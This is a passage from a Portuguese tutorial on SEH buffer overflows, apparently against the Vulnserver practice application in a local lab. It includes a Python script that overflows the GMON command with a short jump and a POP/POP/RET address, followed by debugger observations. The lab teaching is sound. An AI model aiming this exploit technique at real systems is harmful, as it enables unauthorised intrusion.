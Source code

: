 Por que eu calculei um salto de 10 bytes ao inves dos 8 que precisamos?
Porque o JMP vai calcular o salto incluindo incluindo o tamanho da instrução JMP que por sua vez tem 2 bytes.

Precisamos inserir o salto no lugar dos nossos “B” pois quando o POP/POP/RET cair nesse endereço, saltará para nossos buffers de “D”.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * 3549
payload += b"\xeb\x08" # salto curto
payload += b"\x90\x90" # padding para o salto
payload += b"\x0b\x12\x50\x62"
payload += b"D" * (offset - 3549 - 4 - 4)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```

Analisando no Immunity, vemos que logo apos o POP/POP/RET caímos no jump.

![Enumaração do comando.](/std/winbof/winbof-58.png)

Se avançarmos mais um passo, caímos no buffer dos “D” (44).

![Enumaração do comando.](/std/winbof/winbof-59.png)
